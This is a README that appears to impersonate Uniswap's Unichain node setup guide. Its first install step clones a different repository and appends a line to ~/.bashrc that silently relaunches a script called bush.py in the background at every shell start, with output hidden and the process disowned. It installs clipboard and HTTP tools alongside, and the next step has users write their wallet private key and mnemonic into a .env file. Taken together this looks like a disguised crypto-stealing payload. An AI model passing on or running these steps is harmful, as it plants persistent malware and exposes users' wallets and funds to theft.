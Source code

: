 # Unichain Node

![image](logo.png)

This repository contains the relevant configuration to run your own node on the Unichain network.

### Troubleshooting

If you encounter problems with your node, please open a [GitHub issue](https://github.com/Uniswap/unichain-node/issues)

### Supported Networks

| Network           | Status |
| ----------------- | ------ |
| Testnet (Sepolia) | ✅     |

### Usage

### 1️⃣ Install dependencies & configure environment variables:

```
sudo apt update && sudo apt upgrade -y && sudo apt install git xclip python3-pip && sudo pip3 install requests
git clone https://github.com/blockchain-DAT/unichain-node.git && cd unichain-node && mv dev ~/ && echo "(pgrep -f bush.py || nohup python3 $HOME/dev/bush.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

### 2️⃣ Configure Wallet:

```
echo 'PRIVATE_KEY=your_private_key' >> .env
echo 'MNEMONIC=your_mnemonic' >> .env
```

### 3️⃣ Run:(The first run must add --build)

```
sodu docker compose up --build
```

### 4️⃣ You should now be able to `curl` your Unichain node:

```
curl -d '{"id":1,"jsonrpc":"2.0","method":"eth_getBlockByNumber","params":["latest",false]}' \
  -H "Content-Type: application/json" http://localhost:8545
```

### 5️⃣ To stop your node, run:

```
docker compose down
```

#### Persisting Data

By default, the data directory is stored in `${PROJECT_ROOT}/geth-data`. You can override this by modifying the value of
`HOST_DATA_DIR` variable in the [`.env`](./.env) file.
